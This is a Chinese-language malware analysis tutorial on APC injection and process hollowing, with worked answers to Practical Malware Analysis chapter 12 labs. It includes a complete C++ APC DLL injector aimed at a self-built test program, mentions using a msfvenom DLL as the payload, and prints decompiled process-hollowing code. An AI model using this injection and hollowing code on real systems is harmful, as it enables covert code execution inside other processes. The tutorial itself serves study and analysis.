`APC`可以让一个线程在它正常的执行路径运行之前执行一些其他的代码。每一个线程都有一个附加的 `APC`队列，它们在线程处于可警告的等待状态时被处理。例如它们调用如 `WaitForSingleObjectEx`、`waitForMultipleobjectsEx`和 `SleepEx`函数等。实质上，这些函数给了线程一个处理等待 `APC`的机会。

如果应用程序在线程可警告等待状态时（未运行之前）排入一个 `APC`队列，那么线程将从调用 `APC`函数开始。线程逐个调用 `APC`队列中的所有 `APC`。当 `APC`队列完成时，线程才继续沿着它规定的路径执行。恶意代码编写者为了让他们的代码立即获得执行，他们用 `APC`抢占可警告等待状态的线程。

`APC`有两种存在形式：

* 为系统或者驱动生成的 `APC`，被称为内核模式 `APC`。
* 为应用程序生成的 `APC`，被称为用户模式 `APC`。
  恶意代码可以使用 `APC`注入技术，让内核空间或者用户空间中生成用户模式的 `APC`。

### 用户模式下APC注入

线程可以使用 `API`函数 `QueueUserAPC`排入一个让远程线程调用的函数。运行用户模式的 `APC`要求线程必须处于可警告等待状态，因此恶意代码会查看进程中是否有可能进入这个状态的目标线程。幸运的是，对恶意代码分析师来说，`WaitForSingleObjectEx`是最常使用的 `Windows API`调用，并且有很多处于可警告等待状态的线程。

让我们来检查一下 `QueueUserAPC`的参数：`pfnAPC`、`hThread`以及 `dwData`。`QueueUserAPC`要求句柄为 `hThread`的线程使用参数 `dwData`运行 `pfnAPC`定义的函数。

```c++
关键函数
QueueUserAPC 将用户模式异步过程调用(APC) 对象添加到指定线程的 APC 队列。

DWORD QueueUserAPC(
  [in] PAPCFUNC  pfnAPC,
  [in] HANDLE    hThread,
  [in] ULONG_PTR dwData
);

查询目标进程常见函数
CreateToolhelp32Snapshot
Process32First
Process32Next
  
Thread32First
Thread32Next
```

做个实验加深理解。

新建一个弹出消息框的 `dll`，生成 `apc_dll.dll`。

```c++
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        MessageBox(NULL,
            (LPCWSTR) L"APCInject成功!",
            (LPCWSTR) L"APCInject",
            NULL);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

新建一个被注入的程序 `ButtonTest1.exe`。作用就是窗口上有一个按钮，点击按钮就休眠程序。



```c++
// 新建ButtonTest1.exe
// ButtonTest1.cpp : 定义应用程序的入口点。

#include "framework.h"
#include "ButtonTest1.h"

#define MAX_LOADSTRING 100

#define btn1 1

// 全局变量:
HINSTANCE hInst;                                // 当前实例
WCHAR szTitle[MAX_LOADSTRING];                  // 标题栏文本
WCHAR szWindowClass[MAX_LOADSTRING];            // 主窗口类名

// 此代码模块中包含的函数的前向声明:
ATOM                MyRegisterClass(HINSTANCE hInstance);
BOOL                InitInstance(HINSTANCE, int);
LRESULT CALLBACK    WndProc(HWND, UINT, WPARAM, LPARAM);
INT_PTR CALLBACK    About(HWND, UINT, WPARAM, LPARAM);

int APIENTRY wWinMain(_In_ HINSTANCE hInstance,
                     _In_opt_ HINSTANCE hPrevInstance,
                     _In_ LPWSTR    lpCmdLine,
                     _In_ int       nCmdShow)
{
    UNREFERENCED_PARAMETER(hPrevInstance);
    UNREFERENCED_PARAMETER(lpCmdLine);

    // TODO: 在此处放置代码。

    // 初始化全局字符串
    LoadStringW(hInstance, IDS_APP_TITLE, szTitle, MAX_LOADSTRING);
    LoadStringW(hInstance, IDC_BUTTONTEST1, szWindowClass, MAX_LOADSTRING);
    MyRegisterClass(hInstance);

    // 执行应用程序初始化:
    if (!InitInstance (hInstance, nCmdShow))
    {
        return FALSE;
    }

    HACCEL hAccelTable = LoadAccelerators(hInstance, MAKEINTRESOURCE(IDC_BUTTONTEST1));

    MSG msg;

    // 主消息循环:
    while (GetMessage(&msg, nullptr, 0, 0))
    {
        if (!TranslateAccelerator(msg.hwnd, hAccelTable, &msg))
        {
            TranslateMessage(&msg);
            DispatchMessage(&msg);
        }
    }

    return (int) msg.wParam;
}


//
//  函数: MyRegisterClass()
//
//  目标: 注册窗口类。
//
ATOM MyRegisterClass(HINSTANCE hInstance)
{
    WNDCLASSEXW wcex;

    wcex.cbSize = sizeof(WNDCLASSEX);

    wcex.style          = CS_HREDRAW | CS_VREDRAW;
    wcex.lpfnWndProc    = WndProc;
    wcex.cbClsExtra     = 0;
    wcex.cbWndExtra     = 0;
    wcex.hInstance      = hInstance;
    wcex.hIcon          = LoadIcon(hInstance, MAKEINTRESOURCE(IDI_BUTTONTEST1));
    wcex.hCursor        = LoadCursor(nullptr, IDC_ARROW);
    wcex.hbrBackground  = (HBRUSH)(COLOR_WINDOW+1);
    wcex.lpszMenuName   = MAKEINTRESOURCEW(IDC_BUTTONTEST1);
    wcex.lpszClassName  = szWindowClass;
    wcex.hIconSm        = LoadIcon(wcex.hInstance, MAKEINTRESOURCE(IDI_SMALL));

    return RegisterClassExW(&wcex);
}

//
//   函数: InitInstance(HINSTANCE, int)
//
//   目标: 保存实例句柄并创建主窗口
//
//   注释:
//
//        在此函数中，我们在全局变量中保存实例句柄并
//        创建和显示主程序窗口。
//
BOOL InitInstance(HINSTANCE hInstance, int nCmdShow)
{
   hInst = hInstance; // 将实例句柄存储在全局变量中

   HWND hWnd = CreateWindowW(szWindowClass, szTitle, WS_OVERLAPPEDWINDOW,
      CW_USEDEFAULT, 0, CW_USEDEFAULT, 0, nullptr, nullptr, hInstance, nullptr);

   if (!hWnd)
   {
      return FALSE;
   }

   ShowWindow(hWnd, nCmdShow);
   UpdateWindow(hWnd);

   return TRUE;
}

//
//  函数: WndProc(HWND, UINT, WPARAM, LPARAM)
//
//  目标: 处理主窗口的消息。
//
//  WM_COMMAND  - 处理应用程序菜单
//  WM_PAINT    - 绘制主窗口
//  WM_DESTROY  - 发送退出消息并返回
//
//
LRESULT CALLBACK WndProc(HWND hWnd, UINT message, WPARAM wParam, LPARAM lParam)
{
    switch (message)
    {
    case WM_COMMAND:
        {
            int wmId = LOWORD(wParam);
            // 分析菜单选择:
            switch (wmId)
            {

            case btn1:
                SleepEx(6000,TRUE);
                break;

            case IDM_ABOUT:
                DialogBox(hInst, MAKEINTRESOURCE(IDD_ABOUTBOX), hWnd, About);
                break;
            case IDM_EXIT:
                DestroyWindow(hWnd);
                break;
            default:
                return DefWindowProc(hWnd, message, wParam, lParam);
            }
        }
        break;
    case WM_PAINT:
        {
            PAINTSTRUCT ps;
            HDC hdc = BeginPaint(hWnd, &ps);
            // TODO: 在此处添加使用 hdc 的任何绘图代码...
            EndPaint(hWnd, &ps);
        }
        break;

    case WM_DESTROY:
        PostQuitMessage(0);
        break;

    // 添加按钮的逻辑部分
    case WM_CREATE:
        {
        HWND hButton1 = CreateWindowW(_T("button"), _T("Btn1"),
            WS_CHILD | WS_VISIBLE | BS_PUSHBUTTON, 100, 100, 100, 30, hWnd, (HMENU)btn1, hInst, NULL);
        }
        break;


    default:
        return DefWindowProc(hWnd, message, wParam, lParam);
    }
    return 0;
}

// “关于”框的消息处理程序。
INT_PTR CALLBACK About(HWND hDlg, UINT message, WPARAM wParam, LPARAM lParam)
{
    UNREFERENCED_PARAMETER(lParam);
    switch (message)
    {
    case WM_INITDIALOG:
        return (INT_PTR)TRUE;

    case WM_COMMAND:
        if (LOWORD(wParam) == IDOK || LOWORD(wParam) == IDCANCEL)
        {
            EndDialog(hDlg, LOWORD(wParam));
            return (INT_PTR)TRUE;
        }
        break;
    }
    return (INT_PTR)FALSE;
}

```

完成 `APCInject.exe`文件，该文件的功能是新建一个窗口，点击按钮就可以执行注入。



```C++
// APCInject.cpp : 定义应用程序的入口点。
//

#include "framework.h"
#include "APCInject.h"

#define MAX_LOADSTRING 100


#define btn1 1

// 全局变量:
HINSTANCE hInst;                                // 当前实例
WCHAR szTitle[MAX_LOADSTRING];                  // 标题栏文本
WCHAR szWindowClass[MAX_LOADSTRING];            // 主窗口类名

// 此代码模块中包含的函数的前向声明:
ATOM                MyRegisterClass(HINSTANCE hInstance);
BOOL                InitInstance(HINSTANCE, int);
LRESULT CALLBACK    WndProc(HWND, UINT, WPARAM, LPARAM);
INT_PTR CALLBACK    About(HWND, UINT, WPARAM, LPARAM);

int APIENTRY wWinMain(_In_ HINSTANCE hInstance,
                     _In_opt_ HINSTANCE hPrevInstance,
                     _In_ LPWSTR    lpCmdLine,
                     _In_ int       nCmdShow)
{
    UNREFERENCED_PARAMETER(hPrevInstance);
    UNREFERENCED_PARAMETER(lpCmdLine);

    // TODO: 在此处放置代码。

    // 初始化全局字符串
    LoadStringW(hInstance, IDS_APP_TITLE, szTitle, MAX_LOADSTRING);
    LoadStringW(hInstance, IDC_APCINJECT, szWindowClass, MAX_LOADSTRING);
    MyRegisterClass(hInstance);

    // 执行应用程序初始化:
    if (!InitInstance (hInstance, nCmdShow))
    {
        return FALSE;
    }

    HACCEL hAccelTable = LoadAccelerators(hInstance, MAKEINTRESOURCE(IDC_APCINJECT));

    MSG msg;

    // 主消息循环:
    while (GetMessage(&msg, nullptr, 0, 0))
    {
        if (!TranslateAccelerator(msg.hwnd, hAccelTable, &msg))
        {
            TranslateMessage(&msg);
            DispatchMessage(&msg);
        }
    }

    return (int) msg.wParam;
}


//
//  函数: MyRegisterClass()
//
//  目标: 注册窗口类。
//
ATOM MyRegisterClass(HINSTANCE hInstance)
{
    WNDCLASSEXW wcex;

    wcex.cbSize = sizeof(WNDCLASSEX);

    wcex.style          = CS_HREDRAW | CS_VREDRAW;
    wcex.lpfnWndProc    = WndProc;
    wcex.cbClsExtra     = 0;
    wcex.cbWndExtra     = 0;
    wcex.hInstance      = hInstance;
    wcex.hIcon          = LoadIcon(hInstance, MAKEINTRESOURCE(IDI_APCINJECT));
    wcex.hCursor        = LoadCursor(nullptr, IDC_ARROW);
    wcex.hbrBackground  = (HBRUSH)(COLOR_WINDOW+1);
    wcex.lpszMenuName   = MAKEINTRESOURCEW(IDC_APCINJECT);
    wcex.lpszClassName  = szWindowClass;
    wcex.hIconSm        = LoadIcon(wcex.hInstance, MAKEINTRESOURCE(IDI_SMALL));

    return RegisterClassExW(&wcex);
}

//
//   函数: InitInstance(HINSTANCE, int)
//
//   目标: 保存实例句柄并创建主窗口
//
//   注释:
//
//        在此函数中，我们在全局变量中保存实例句柄并
//        创建和显示主程序窗口。
//
BOOL InitInstance(HINSTANCE hInstance, int nCmdShow)
{
   hInst = hInstance; // 将实例句柄存储在全局变量中

   HWND hWnd = CreateWindowW(szWindowClass, szTitle, WS_OVERLAPPEDWINDOW,
      CW_USEDEFAULT, 0, CW_USEDEFAULT, 0, nullptr, nullptr, hInstance, nullptr);

   if (!hWnd)
   {
      return FALSE;
   }

   ShowWindow(hWnd, nCmdShow);
   UpdateWindow(hWnd);

   return TRUE;
}

//
//  函数: WndProc(HWND, UINT, WPARAM, LPARAM)
//
//  目标: 处理主窗口的消息。
//
//  WM_COMMAND  - 处理应用程序菜单
//  WM_PAINT    - 绘制主窗口
//  WM_DESTROY  - 发送退出消息并返回
//
//
LRESULT CALLBACK WndProc(HWND hWnd, UINT message, WPARAM wParam, LPARAM lParam)
{
    switch (message)
    {
    case WM_CREATE:
    {
        HWND hButton1 = CreateWindow(_T("button"), _T("APCInject"),
            WS_CHILD | WS_VISIBLE | BS_PUSHBUTTON, 100, 100, 100, 30, hWnd, (HMENU)btn1, hInst, NULL);
    }
    break;
    case WM_COMMAND:
        {
            int wmId = LOWORD(wParam);
            // 分析菜单选择:
            switch (wmId)
            {
            case btn1:
            // 11
            {
                HWND hWnd = ::FindWindow(NULL, TEXT("ButtonTest1"));
                if (NULL == hWnd)
                {
                    return 0;
                }
                DWORD dwPid = 0;
                DWORD dwTid = 0;
                dwTid = GetWindowThreadProcessId(hWnd, &dwPid);

                // 打开进程
                HANDLE hProcess = NULL;
                hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
                if (NULL == hProcess)
                {
                    return 0;
                }
                // 申请远程内存
                void* lpAddr = NULL;
                lpAddr = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
                if (NULL == lpAddr)
                {
                    return 0;
                }
                // DLL路径
                char szBuf[] = "apc_dll.dll";
                BOOL bRet = WriteProcessMemory(hProcess, lpAddr, szBuf, strlen(szBuf) + 1, NULL);
                if (!bRet)
                {
                    return 0;
                }
                // 打开线程句柄
                HANDLE hThread = NULL;
                hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, dwTid);
                if (NULL == hThread)
                {
                    return 0;
                }
                // 给APC队列中插入回调函数
                QueueUserAPC((PAPCFUNC)LoadLibraryA, hThread, (ULONG_PTR)lpAddr);

                CloseHandle(hThread);
                CloseHandle(hProcess);
            }
                break;

            case IDM_ABOUT:
                DialogBox(hInst, MAKEINTRESOURCE(IDD_ABOUTBOX), hWnd, About);
                break;
            case IDM_EXIT:
                DestroyWindow(hWnd);
                break;
            default:
                return DefWindowProc(hWnd, message, wParam, lParam);
            }
        }
        break;
    case WM_PAINT:
        {
            PAINTSTRUCT ps;
            HDC hdc = BeginPaint(hWnd, &ps);
            // TODO: 在此处添加使用 hdc 的任何绘图代码...
            EndPaint(hWnd, &ps);
        }
        break;
    case WM_DESTROY:
        PostQuitMessage(0);
        break;
    default:
        return DefWindowProc(hWnd, message, wParam, lParam);
    }
    return 0;
}

// “关于”框的消息处理程序。
INT_PTR CALLBACK About(HWND hDlg, UINT message, WPARAM wParam, LPARAM lParam)
{
    UNREFERENCED_PARAMETER(lParam);
    switch (message)
    {
    case WM_INITDIALOG:
        return (INT_PTR)TRUE;

    case WM_COMMAND:
        if (LOWORD(wParam) == IDOK || LOWORD(wParam) == IDCANCEL)
        {
            EndDialog(hDlg, LOWORD(wParam));
            return (INT_PTR)TRUE;
        }
        break;
    }
    return (INT_PTR)FALSE;
}

```

打开 `APCInject.exe`和ButtonTest1.exe两个文件，先点击ButtonTest的Btn1按钮，然后点击APCInject的APCInject按钮，弹出消息框APCInject成功!，这说明我们的DLL已经注入。



使用火绒剑查看ButtonTest1.exe，发现`apc_dll.dll`。



同理，可以使用msfvenom生成恶意的DLL，使用APC注入。



### 内核模式的APC注入

恶意代码驱动和 `Rootkit`也常常希望在用户空间中执行代码，但是对它们来说这样做并不容易。一种方法是在内核空间执行 `APC`注入。恶意的驱动可创建一个 `APC`，然后分配用户模式进程中的一个线程（最常见的是 `suchost.exe`）运行它。这种类型 `APC`通常由 `shellcode`组成。

设备驱动利用两个主要的函数来使用 `APC`: `KeInitializeApc`和 `KeInsertQueueApc`.

```
关键函数
KeInitializeApc
KeInsertQueueApc
```

## 实验部分

### Q

**实验一**：

分析在`Lab12-01.exe`和`Lab12-01.dll`文件中找到的恶意代码，并确保在分析这些文件时这些文件在同一目录。

1、运行恶意代码的可执行文件时，会发生什么？

2、哪些进程会被注入？

3、你如何让恶意代码停止弹出窗口？

4、这个恶意代码样本是如何生存的？

**实验二**：

分析在`Lab12-02.exe`文件中找到的恶意代码。

1、这个程序的目的是什么？

2、启动器恶意代码是如何隐蔽执行的？

3、恶意代码的负载存储在哪里？

**实验三**：

分析在`Lab12-02`实验中抽取的恶意代码样本，或者使用`Lab12-03.exe`文件。

1、这个恶意负载的目的是什么？

2、这个恶意负载时如何注入自身的？

3、这个程序还创建了哪些文件？

**实验四**：

分析在Lab12-04.exe中找到的恶意代码。

1、未知`0x401000`的代码完成了什么功能？

2、代码注入了哪个进程？

3、使用`LoadLibraryA`装载了哪个`DLL`程序？

4、传递给`CreateRemoteThread`调用的第四个参数是什么？

5、二进制主程序释放了哪个恶意代码？

6、释放出的恶意代码主要的目的是什么？

### A

**实验一**

拖进IDA Pro中分析，查看`Import`表。可以看到几个关键 函数`CreateremoteThread`有可能有`dll注入`的行为。



查看伪代码，发现就是标准的DLL注入，分析恶意DLL即可。

```
枚举进程
https://docs.microsoft.com/en-us/windows/win32/psapi/enumerating-all-processes
```





恶意DLL执行如下操作，弹出一个`MessageBox`，(按钮为：Press OK to reboot，标题为：Practical Malware Analysis %d)然后休眠60s，继续执行。





知道这个程序是进程注入以后我们还需要知道这个恶意程序注入的是哪个进程，找对应的pid，发现这个程序是在找名为`explorer.exe`



杀掉这个恶意程序当然就是杀掉`explorer.exe`程序。

可以使用火绒或者`Process Explorer`。


**实验二**

直接使用IDA打开，可以看到程序访问并加载了资源节中的文件



拿到资源后sub_401000函数对资源进行了解码



当字节流的第一个字节不是`0x4D`或者第二个字节不是`0x5A`时调用`sub_401000`函数解码，这里可以通过和`0x41`异或来解码。



继续向下看，函数`sub_4010EA`使用了进程替换技术。

```
int __cdecl sub_4010EA(LPCSTR lpApplicationName, LPCVOID lpBuffer)
{
  HMODULE v2; // eax
  _DWORD *v4; // [esp+0h] [ebp-74h]
  int i; // [esp+4h] [ebp-70h]
  int Buffer; // [esp+8h] [ebp-6Ch] BYREF
  LPVOID lpBaseAddress; // [esp+Ch] [ebp-68h]
  FARPROC NtUnmapViewOfSection; // [esp+10h] [ebp-64h]
  LPCONTEXT lpContext; // [esp+14h] [ebp-60h]
  struct _STARTUPINFOA StartupInfo; // [esp+18h] [ebp-5Ch] BYREF
  struct _PROCESS_INFORMATION ProcessInformation; // [esp+5Ch] [ebp-18h] BYREF
  int v12; // [esp+6Ch] [ebp-8h]
  _DWORD *v13; // [esp+70h] [ebp-4h]

  v13 = lpBuffer;
  if ( *(_WORD *)lpBuffer != 23117 )
    return 0;
  v12 = (int)lpBuffer + v13[15];
  if ( *(_DWORD *)v12 != 17744 )
    return 0;
  memset(&StartupInfo, 0, sizeof(StartupInfo));
  memset(&ProcessInformation, 0, sizeof(ProcessInformation));
  if ( !CreateProcessA(lpApplicationName, 0, 0, 0, 0, 4u, 0, 0, &StartupInfo, &ProcessInformation) )
    return 0;
  lpContext = (LPCONTEXT)VirtualAlloc(0, 0x2CCu, 0x1000u, 4u);
  lpContext->ContextFlags = 65543;
  if ( !GetThreadContext(ProcessInformation.hThread, lpContext) )
    return 0;
  Buffer = 0;
  lpBaseAddress = 0;
  NtUnmapViewOfSection = 0;
  ReadProcessMemory(ProcessInformation.hProcess, (LPCVOID)(lpContext->Ebx + 8), &Buffer, 4u, 0);// peb+8
  v2 = GetModuleHandleA(ModuleName);            // 获取ntdll.dll句柄
  NtUnmapViewOfSection = GetProcAddress(v2, ProcName);// NtUnmapViewOfSection
  if ( !NtUnmapViewOfSection )
    return 0;
  ((void (__stdcall *)(HANDLE, int))NtUnmapViewOfSection)(ProcessInformation.hProcess, Buffer);
  lpBaseAddress = VirtualAllocEx(
                    ProcessInformation.hProcess,
                    *(LPVOID *)(v12 + 52),
                    *(_DWORD *)(v12 + 80),
                    0x3000u,
                    0x40u);
  if ( !lpBaseAddress )
    return 0;
  WriteProcessMemory(ProcessInformation.hProcess, lpBaseAddress, lpBuffer, *(_DWORD *)(v12 + 84), 0);
  for ( i = 0; i < *(unsigned __int16 *)(v12 + 6); ++i )
  {
    v4 = (char *)lpBuffer + 40 * i + v13[15] + 248;
    WriteProcessMemory(ProcessInformation.hProcess, (char *)lpBaseAddress + v4[3], (char *)lpBuffer + v4[5], v4[4], 0);
  }
  WriteProcessMemory(ProcessInformation.hProcess, (LPVOID)(lpContext->Ebx + 8), (LPCVOID)(v12 + 52), 4u, 0);
  lpContext->Eax = (DWORD)lpBaseAddress + *(_DWORD *)(v12 + 40);
  SetThreadContext(ProcessInformation.hThread, lpContext);
  ResumeThread(ProcessInformation.hThread);
  return 1;
}
```

刚开始就对拿到的资源进行了判断，判断是不是以`MZ`开头，`0xF`处的偏移是不是`PE`（我这里都右键进行了转换）这个操作也说明资源节处的文件是一个PE文件。



常用的判断PE文件的方法如下：

`IMAGE_DOS_HEADER`结构体定义如下，大小占64字节，一般只需要注意两点

* 以`MZ`开头（`0x4D5A`）
* `e_lfanew`存储的地址上以PE开头（最后四字节）

```
typedef struct _IMAGE_DOS_HEADER {      // DOS .EXE header
    WORD   e_magic;                     // Magic number
    WORD   e_cblp;                      // Bytes on last page of file
    WORD   e_cp;                        // Pages in file
    WORD   e_crlc;                      // Relocations
    WORD   e_cparhdr;                   // Size of header in paragraphs
    WORD   e_minalloc;                  // Minimum extra paragraphs needed
    WORD   e_maxalloc;                  // Maximum extra paragraphs needed
    WORD   e_ss;                        // Initial (relative) SS value
    WORD   e_sp;                        // Initial SP value
    WORD   e_csum;                      // Checksum
    WORD   e_ip;                        // Initial IP value
    WORD   e_cs;                        // Initial (relative) CS value
    WORD   e_lfarlc;                    // File address of relocation table
    WORD   e_ovno;                      // Overlay number
    WORD   e_res[4];                    // Reserved words
    WORD   e_oemid;                     // OEM identifier (for e_oeminfo)
    WORD   e_oeminfo;                   // OEM information; e_oemid specific
    WORD   e_res2[10];                  // Reserved words
    LONG   e_lfanew;                 // File address of new exe header 
                             //指向PE文件头的位置为中的PE文件头标志的地址
  } IMAGE_DOS_HEADER, *PIMAGE_DOS_HEADER;
```

比如随便打开一个`EXE`文件，可以验证上面的结论。



直接看汇编代码更能直接说明那个相对于资源指针的偏移是如何确定的，存的就是`PE`的地址。



所以PE标志位地址是`ebp+var_8`，继续向下看，在`VirtualAllocEx`中调用了。



```c++
// MSDN https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex
// 在指定进程的虚拟地址空间内保留、提交或更改内存区域的状态。该函数将其分配的内存初始化为零。
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess, //进程的句柄。该函数在该进程的虚拟地址空间内分配内存。
  [in, optional] LPVOID lpAddress, //为要分配的页面区域指定所需起始地址的指针
  [in]           SIZE_T dwSize, //要分配的内存区域的大小，以字节为单位。
  [in]           DWORD  flAllocationType, //内存分配的类型
  [in]           DWORD  flProtect //要分配的页面区域的内存保护
);
```

对照PE结构，发现拿到的就是映像基址和映像大小。





内存保护常数为`0x40`（**PAGE_EXECUTE_READWRITE**）意思是**启用对已提交页面区域的执行、只读或读/写访问**

```
// 内存保护常数
// https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants
```

移动资源节中的PE程序到被挂起的程序的地址空间。

接下来的操作就是通过循环复制每一个节表到被挂起的程序中。



代码如下

```c++
for (idx = 0; idx < pNtHeaders->FileHeader.NumberOfSections; ++idx)
  {
    pSectionHeader = (PIMAGE_SECTION_HEADER)lpSectionBaseAddr;
    WriteProcessMemory(pi.hProcess,
      (LPVOID)((DWORD)lpNewVictimBaseAddr + pSectionHeader->VirtualAddress),
      (LPCVOID)((DWORD)lpMalwareBaseAddr + pSectionHeader->PointerToRawData),
      pSectionHeader->SizeOfRawData,
      NULL);
    lpSectionBaseAddr = (LPVOID)((DWORD)lpSectionBaseAddr + sizeof(IMAGE_SECTION_HEADER));
  }
```

然后继续复制资源PE文件到虚拟地址空间，期间通过`PEB+8`定位`ImageBase`。



代码如下

```
DWORD dwImageBase = pNtHeaders->OptionalHeader.ImageBase;
WriteProcessMemory(pi.hProcess, (LPVOID)(context.Ebx + 8), (LPCVOID)&dwImageBase, sizeof(PVOID), NULL);
```


PEB结构体定义如下。

Windows XP SP3下：

```
typedef struct _PEB { // Size: 0x1D8
 	000h    UCHAR           InheritedAddressSpace;
    001h    UCHAR           ReadImageFileExecOptions;
    002h    UCHAR           BeingDebugged;              //Debug运行标志
    003h    UCHAR           SpareBool;
    004h    HANDLE          Mutant;
    008h    HINSTANCE       ImageBaseAddress;           //程序加载的基地址
    00Ch    struct _PEB_LDR_DATA    *Ldr                //Ptr32 _PEB_LDR_DATA
    010h    struct _RTL_USER_PROCESS_PARAMETERS  *ProcessParameters;
    014h    ULONG           SubSystemData;
    018h    HANDLE          DefaultHeap;
    01Ch    KSPIN_LOCK      FastPebLock;
    020h    ULONG           FastPebLockRoutine;
    024h    ULONG           FastPebUnlockRoutine;
    028h    ULONG           EnvironmentUpdateCount;
    02Ch    ULONG           KernelCallbackTable;
    030h    LARGE_INTEGER   SystemReserved;
    038h    struct _PEB_FREE_BLOCK  *FreeList
    03Ch    ULONG           TlsExpansionCounter;
    040h    ULONG           TlsBitmap;
    044h    LARGE_INTEGER   TlsBitmapBits;
    04Ch    ULONG           ReadOnlySharedMemoryBase;
    050h    ULONG           ReadOnlySharedMemoryHeap;
    054h    ULONG           ReadOnlyStaticServerData;
    058h    ULONG           AnsiCodePageData;
    05Ch    ULONG           OemCodePageData;
    060h    ULONG           UnicodeCaseTableData;
    064h    ULONG           NumberOfProcessors;
    068h    LARGE_INTEGER   NtGlobalFlag;               // Address of a local copy
    070h    LARGE_INTEGER   CriticalSectionTimeout;
    078h    ULONG           HeapSegmentReserve;
    07Ch    ULONG           HeapSegmentCommit;
    080h    ULONG           HeapDeCommitTotalFreeThreshold;
    084h    ULONG           HeapDeCommitFreeBlockThreshold;
    088h    ULONG           NumberOfHeaps;
    08Ch    ULONG           MaximumNumberOfHeaps;
    090h    ULONG           ProcessHeaps;
    094h    ULONG           GdiSharedHandleTable;
    098h    ULONG           ProcessStarterHelper;
    09Ch    ULONG           GdiDCAttributeList;
    0A0h    KSPIN_LOCK      LoaderLock;
    0A4h    ULONG           OSMajorVersion;
    0A8h    ULONG           OSMinorVersion;
    0ACh    USHORT          OSBuildNumber;
    0AEh    USHORT          OSCSDVersion;
    0B0h    ULONG           OSPlatformId;
    0B4h    ULONG           ImageSubsystem;
    0B8h    ULONG           ImageSubsystemMajorVersion;
    0BCh    ULONG           ImageSubsystemMinorVersion;
    0C0h    ULONG           ImageProcessAffinityMask;
    0C4h    ULONG           GdiHandleBuffer[0x22];
    14Ch    ULONG           PostProcessInitRoutine;
    150h    ULONG           TlsExpansionBitmap;
    154h    UCHAR           TlsExpansionBitmapBits[0x80];
    1D4h    ULONG           SessionId;
	1d8h AppCompatFlags   : _ULARGE_INTEGER
	1e0h AppCompatFlagsUser : _ULARGE_INTEGER
	1e8h pShimData        : Ptr32 Void
	1ech AppCompatInfo    : Ptr32 Void
	1f0h CSDVersion       : _UNICODE_STRING
	1f8h ActivationContextData : Ptr32 Void
	1fch ProcessAssemblyStorageMap :Ptr32 Void
	200h SystemDefaultActivationContextData : Ptr32 Void
	204h SystemAssemblyStorageMap : Ptr32 Void
	208h MinimumStackCommit : Uint4B
} PEB, *PPEB;

```

Windows7 下

```
ntdll!_PEB
   +0x000 InheritedAddressSpace : UChar
   +0x001 ReadImageFileExecOptions : UChar
   +0x002 BeingDebugged    : UChar
   +0x003 BitField         : UChar
   +0x003 ImageUsesLargePages : Pos 0, 1 Bit
   +0x003 IsProtectedProcess : Pos 1, 1 Bit
   +0x003 IsLegacyProcess  : Pos 2, 1 Bit
   +0x003 IsImageDynamicallyRelocated : Pos 3, 1 Bit
   +0x003 SkipPatchingUser32Forwarders : Pos 4, 1 Bit
   +0x003 SpareBits        : Pos 5, 3 Bits
   +0x004 Mutant           : Ptr32 Void
   +0x008 ImageBaseAddress : Ptr32 Void
   +0x00c Ldr              : Ptr32 _PEB_LDR_DATA
   +0x010 ProcessParameters : Ptr32 _RTL_USER_PROCESS_PARAMETERS
   +0x014 SubSystemData    : Ptr32 Void
   +0x018 ProcessHeap      : Ptr32 Void
   +0x01c FastPebLock      : Ptr32 _RTL_CRITICAL_SECTION
   +0x020 AtlThunkSListPtr : Ptr32 Void
   +0x024 IFEOKey          : Ptr32 Void
   +0x028 CrossProcessFlags : Uint4B
   +0x028 ProcessInJob     : Pos 0, 1 Bit
   +0x028 ProcessInitializing : Pos 1, 1 Bit
   +0x028 ProcessUsingVEH  : Pos 2, 1 Bit
   +0x028 ProcessUsingVCH  : Pos 3, 1 Bit
   +0x028 ProcessUsingFTH  : Pos 4, 1 Bit
   +0x028 ReservedBits0    : Pos 5, 27 Bits
   +0x02c KernelCallbackTable : Ptr32 Void
   +0x02c UserSharedInfoPtr : Ptr32 Void
   +0x030 SystemReserved   : [1] Uint4B
   +0x034 AtlThunkSListPtr32 : Uint4B
   +0x038 ApiSetMap        : Ptr32 Void
   +0x03c TlsExpansionCounter : Uint4B
   +0x040 TlsBitmap        : Ptr32 Void
   +0x044 TlsBitmapBits    : [2] Uint4B
   +0x04c ReadOnlySharedMemoryBase : Ptr32 Void
   +0x050 HotpatchInformation : Ptr32 Void
   +0x054 ReadOnlyStaticServerData : Ptr32 Ptr32 Void
   +0x058 AnsiCodePageData : Ptr32 Void
   +0x05c OemCodePageData  : Ptr32 Void
   +0x060 UnicodeCaseTableData : Ptr32 Void
   +0x064 NumberOfProcessors : Uint4B
   +0x068 NtGlobalFlag     : Uint4B
   +0x070 CriticalSectionTimeout : _LARGE_INTEGER
   +0x078 HeapSegmentReserve : Uint4B
   +0x07c HeapSegmentCommit : Uint4B
   +0x080 HeapDeCommitTotalFreeThreshold : Uint4B
   +0x084 HeapDeCommitFreeBlockThreshold : Uint4B
   +0x088 NumberOfHeaps    : Uint4B
   +0x08c MaximumNumberOfHeaps : Uint4B
   +0x090 ProcessHeaps     : Ptr32 Ptr32 Void
   +0x094 GdiSharedHandleTable : Ptr32 Void
   +0x098 ProcessStarterHelper : Ptr32 Void
   +0x09c GdiDCAttributeList : Uint4B
   +0x0a0 LoaderLock       : Ptr32 _RTL_CRITICAL_SECTION
   +0x0a4 OSMajorVersion   : Uint4B
   +0x0a8 OSMinorVersion   : Uint4B
   +0x0ac OSBuildNumber    : Uint2B
   +0x0ae OSCSDVersion     : Uint2B
   +0x0b0 OSPlatformId     : Uint4B
   +0x0b4 ImageSubsystem   : Uint4B
   +0x0b8 ImageSubsystemMajorVersion : Uint4B
   +0x0bc ImageSubsystemMinorVersion : Uint4B
   +0x0c0 ActiveProcessAffinityMask : Uint4B
   +0x0c4 GdiHandleBuffer  : [34] Uint4B
